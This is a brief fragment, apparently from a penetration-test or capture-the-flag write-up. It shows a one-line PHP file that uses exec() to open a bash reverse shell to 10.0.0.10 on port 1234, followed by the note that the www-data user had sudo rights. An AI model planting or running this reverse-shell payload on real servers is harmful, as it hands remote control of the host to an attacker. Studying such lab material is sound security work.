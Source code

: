 
```
|   |
|---|
|<?php|
||exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");|
```

www-data had sudo
